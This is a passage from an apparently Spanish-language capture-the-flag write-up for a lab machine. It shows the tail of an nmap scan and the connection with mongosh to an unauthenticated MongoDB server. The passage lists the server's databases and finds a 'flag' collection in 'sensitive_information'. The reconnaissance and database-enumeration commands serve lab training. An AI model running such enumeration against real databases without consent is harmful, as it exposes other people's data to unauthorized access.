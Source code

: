 ```ruby
|         writers = 0
|         readers = 0
|         total = 0
|     opcounters
|       update = 0
|       insert = 0
|       delete = 0
|       query = 1
|       command = 4
|       getmore = 0
|     extra_info
|       note = fields vary by platform
|       page_faults = 268
|_    localTime = 1664877431599
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
## Nmap done at Tue Oct  4 11:57:11 2022 -- 1 IP address (1 host up) scanned in 7.92 seconds
```

Entre otra mucha información, nos muestra las versiones de SSH y de mongoDB, que son **OpenSSH 8.2p1 Ubuntu 4ubuntu0.5** y **MongoDB 3.6.8** respectivamente. Como no disponemos de credenciales para autenticarnos por SSH, empezaremos auditando el servicio de mongoDB.

### Puerto 27017 abierto (MongoDB)

MongoDB es una base de datos NoSQL. Una de sus principales diferencias con las bases de datos SQL es que no utilizan SQL como lenguaje principal de consultas. Para conectarnos a esta base de datos yo utilizare la herramienta **mongosh** (mongo shell), que me la he descargado de la página oficial de [mongo](https://www.mongodb.com/try/download/shell).

Para conectarnos introduciremos el siguiente comando: ```mongosh --host 10.129.138.155 --port 27017```

Una vez conectados podremos listar las bases de datos disponibles con ```show dbs o show databases``:

```ruby
test> show dbs
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
```

Existe un base de datos **sensitive_information** que me llama bastante la atención. Para conectarnos a esta base de datos podemos escribir ```use sensitive_information```. Posteriormente para listar las tablas disponibles de *sensitive_information* ejecutaremos ```show tables o show collections```.

```ruby
test> use sensitive_information
switched to db sensitive_information
sensitive_information> show tables
flag
```
